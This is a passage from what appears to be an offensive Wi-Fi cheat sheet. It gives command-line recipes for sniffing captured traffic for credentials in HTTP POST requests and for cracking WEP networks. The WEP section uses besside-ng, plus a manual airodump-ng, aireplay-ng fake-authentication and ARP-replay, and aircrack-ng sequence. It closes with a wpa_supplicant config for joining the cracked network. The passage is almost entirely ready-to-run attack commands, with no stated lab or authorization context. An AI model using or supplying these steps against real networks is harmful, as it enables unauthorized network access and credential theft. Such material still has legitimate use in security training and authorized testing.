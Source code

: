 ### Traffic Analysis for Credentials

```bash
# Analyze captured traffic
wireshark ~/wifi/scan-01.cap

# Filter for HTTP POST requests containing credentials
# Look for: http.request.method == "POST"
```

## WEP Attacks

### Automated Attack with Besside-ng

```bash
# Kill interfering processes
airmon-ng check kill

# Automated WEP crack
besside-ng -c [CHANNEL] -b [AP_MAC] wlan2 -v
```

### Manual WEP Attack

```bash
# Capture data packets
sudo airodump-ng -c [CHANNEL] --bssid [AP_MAC] -w wep-capture wlan0mon

# Fake authentication (in parallel)
sudo aireplay-ng -1 3600 -q 10 -a [AP_MAC] wlan0mon

# ARP replay attack (in parallel)
sudo aireplay-ng --arpreplay -b [AP_MAC] -h [CLIENT_MAC] wlan0mon

# Crack password (in parallel)
sudo aircrack-ng wep-capture-01.cap
```

### WEP Connection

```bash
cat > wep.conf << EOF
network={
    ssid="[NETWORK_NAME]"
    key_mgmt=NONE
    wep_key0=[HEX_PASSWORD]
    wep_tx_keyidx=0
}
EOF

wpa_supplicant -D nl80211 -i wlan2 -c wep.conf &
dhclient wlan2 -v
```
